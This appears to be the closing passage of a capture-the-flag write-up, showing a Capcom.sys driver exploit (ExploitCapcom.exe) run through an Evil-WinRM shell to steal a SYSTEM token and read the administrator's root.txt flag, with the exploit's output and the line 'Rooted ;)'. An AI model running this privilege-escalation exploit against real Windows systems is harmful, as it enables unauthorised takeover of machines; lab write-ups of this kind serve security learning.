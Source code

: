 {% highlight text %}
.\ExploitCapcom.exe "type \users\administrator\desktop\root.txt"

*Evil-WinRM* PS C:\temp> .\ExploitCapcom.exe "type \users\administrator\desktop\root.txt"
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 0000025BB0C20008
[+] Shellcode was executed
[+] Token stealing was successful
a53127...

{% endhighlight %}



<strong>Rooted ;)</strong>
